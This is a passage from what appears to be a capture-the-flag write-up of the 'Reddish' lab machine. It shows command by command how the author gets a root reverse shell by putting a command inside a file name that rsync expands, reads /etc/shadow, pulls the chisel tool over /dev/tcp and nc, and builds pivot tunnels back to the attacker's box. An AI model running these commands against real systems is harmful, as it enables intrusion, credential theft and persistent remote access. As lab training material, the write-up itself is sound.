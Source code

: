 On www:

```bash
cd /var/www/html
touch -- 'f187a0ec71ce99642e4f0afbd441a68b/-e sh reverse.rdb'
cp /tmp/reverse.rdb f18*/

```

We have gotten reverse shell. With root permission, we can also now rsync the shadow file

```bash
rsync -a rsync://backup:873/src/etc/shadow .
```

It does not contain any password hashes. From the backup script, we also know the script connects to backup, but looking in the /etc/hosts file we do not see backup. Let’s try pinging it

```bash
ping -c1 backup

result:
64 bytes from reddish_composition_backup_1.reddish_composition_internal-network-2 (172.20.0.2): icmp_seq=1 ttl=64 time=0.050 ms
```

Now we know backup is at 172.20.0.2

Let’s send a cronjob to backup and let it execute a reverse shell so we can catch it. Before that, we have to set up chisel port forwarding again. We need backup to connect to www, which then connects to node red (pivot), which then connects back to us. First transfer chisel to www:

```bash
attack:
nc -lnvp 1235 < chisel

pivot:
/tmp/chisel client 10.10.14.132:8110 1235:127.0.0.1:1235

www:
bash -c "cat < /dev/tcp/172.19.0.4/1235 > /tmp/chisel"

```

```bash
pivot:
/tmp/chisel client 10.10.14.132:8110 8150:127.0.0.1:8110
#sets up for anything node red receives from port 8150 gets forwarded to 8110

www:
/tmp/chisel client 172.19.0.4:8150 8051:127.0.0.1:9005
#sets up anything from www receives from port 8051 and forward it to port 9005 (this would be our kali box)
```

Now we have the listening port set up we have to try and get the backup server to execute our script. From rsync, we know we can transfer files to and from the server, so let’s make a cronjob that will connect to us.
